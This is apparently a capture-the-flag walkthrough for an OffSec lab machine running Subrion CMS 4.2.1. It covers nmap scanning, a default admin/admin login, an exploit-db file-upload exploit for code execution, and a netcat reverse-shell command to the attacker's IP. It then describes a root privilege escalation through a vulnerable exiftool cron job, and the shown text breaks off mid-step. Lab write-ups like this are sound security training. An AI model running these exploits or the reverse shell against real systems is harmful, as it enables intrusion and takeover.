









# NMAP
On this machine we have two ports open:
```sh
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c1:99:4b:95:22:25:ed:0f:85:20:d3:63:b4:48:bb:cf (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDH6PH1/ST7TUJ4Mp/l4c7G+TM07YbX7YIsnHzq1TRpvtiBh8MQuFkL1SWW9+za+h6ZraqoZ0ewwkH+0la436t9Q+2H/Nh4CntJOrRbpLJKg4hChjgCHd5KiLCOKHhXPs/FA3mm0Zkzw1tVJLPR6RTbIkkbQiV2Zk3u8oamV5srWIJeYUY5O2XXmTnKENfrPXeHup1+3wBOkTO4Mu17wBSw6yvXyj+lleKjQ6Hnje7KozW5q4U6ijd3LmvHE34UHq/qUbCUbiwY06N2Mj0NQiZqWW8z48eTzGsuh6u1SfGIDnCCq3sWm37Y5LIUvqAFyIEJZVsC/UyrJDPBE+YIODNbN2QLD9JeBr8P4n1rkMaXbsHGywFtutdSrBZwYuRuB2W0GjIEWD/J7lxKIJ9UxRq0UxWWkZ8s3SNqUq2enfPwQt399nigtUerccskdyUD0oRKqVnhZCjEYfX3qOnlAqejr3Lpm8nA31pp6lrKNAmQEjdSO8Jxk04OR2JBxcfVNfs=
|   256 0f:44:8b:ad:ad:95:b8:22:6a:f0:36:ac:19:d0:0e:f3 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBI0EdIHR7NOReMM0G7C8zxbLgwB3ump+nb2D3Pe3tXqp/6jNJ/GbU2e4Ab44njMKHJbm/PzrtYzojMjGDuBlQCg=
|   256 32:e1:2a:6c:cc:7c:e6:3e:23:f4:80:8d:33:ce:9b:3a (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDCc0saExmeDXtqm5FS+D5RnDke8aJEvFq3DJIr0KZML
80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 7 disallowed entries 
| /backup/ /cron/? /front/ /install/ /panel/ /tmp/ 
|_/updates/
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-favicon: Unknown favicon MD5: 09BDDB30D6AE11E854BFF82ED638542B
|_http-title: Did not follow redirect to http://exfiltrated.offsec/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


# Port 80
On Port 80 we can see that the webserver is sunning Subrion CMS



After some enumeration we try the credentials admin/admin at the loginpage and we can login!

The Dubrion version can be found on the administrator panel:



Subrion CMS  v 4.2.1
For this version there is an arbitraty file upload vulnerabilty available which can lead to RCE.

https://www.exploit-db.com/exploits/49876


# Foothold

We can run the exploit and read the /etc/passwd file:

```sh
python3 49876.py -u http://exfiltrated.offsec/panel/  -l admin -p admin
```


To gain a reverse shell on our listening port 22 we can execute the command: `busybox nc 192.168.45.154 22 -e bash` on the webshell




# Privilege escalation

During enumaration with linpeas it was found that bash /opt/image-exif.sh is executed every minute as root




We can see that the script will run exiftool on every .jpg in the '/var/www/html/subrion/uploads' folder and will store this in a logfile.
 


The Exiftool Version currently installed is:



This version is vulnerable to a code execution vulnerability and an exploit can be found here:https://www.exploit-db.com/exploits/50911

Now we need to run the exploit which generates a .jpg file



Now we need to upload the image.jpg to the server using the admin panel.
Start a listener and wait for max 1 minute:


